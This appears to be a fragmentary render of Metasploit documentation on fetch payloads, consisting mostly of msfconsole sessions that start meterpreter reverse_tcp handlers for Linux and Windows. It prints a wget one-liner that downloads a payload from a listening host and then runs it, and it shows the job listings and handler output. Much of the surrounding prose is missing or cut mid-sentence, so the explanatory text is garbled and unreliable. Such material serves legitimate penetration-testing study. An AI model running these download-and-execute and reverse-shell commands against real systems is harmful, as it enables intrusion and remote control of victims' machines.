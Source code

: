 ### Starting the Fetch Server
started:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > to_handler
[*] wget -qO ./YBybOrAmkV http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YBybOrAmkV; ./YBybOrAmkV &
[*] Payload Handler Started as Job 0
[*] Fetch Handler listening on 10.5.135.201:8000
[*] http server started
[*] Started reverse TCP handler on 10.5.135.201:4567 
```

### Fetch Handlers and Served Payload Handlers
`Jobs`, even though the Fetch Handler is listening:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -l

Jobs
====

  Id  Name                    Payload                                     Payload opts
  --  ----                    -------                                     ------------
  0   Exploit: multi/handler  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4567

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

tcp        0      0 10.5.135.201:8000       0.0.0.0:*               LISTEN     

```

Killing the Served Payload handler will kill the Fetch Handler as well:
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -k 0
[*] Stopping the following job(s): 0
[*] Stopping job 0
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```

## Using Fetch Payloads on the Fly
## Using it in an exploit
### Example paired with CmdStager
payloads.  All I did was give an array value for the `Platform` value and change the`Type` to something more generic:
```msf
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > jobs

Jobs
====

  Id  Name                    Payload                                       Payload opts
  --  ----                    -------                                       ------------
  2   Exploit: multi/handler  cmd/windows/tftp/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4444

msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > set LPORT 4445
LPORT => 4445
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > to_handler

```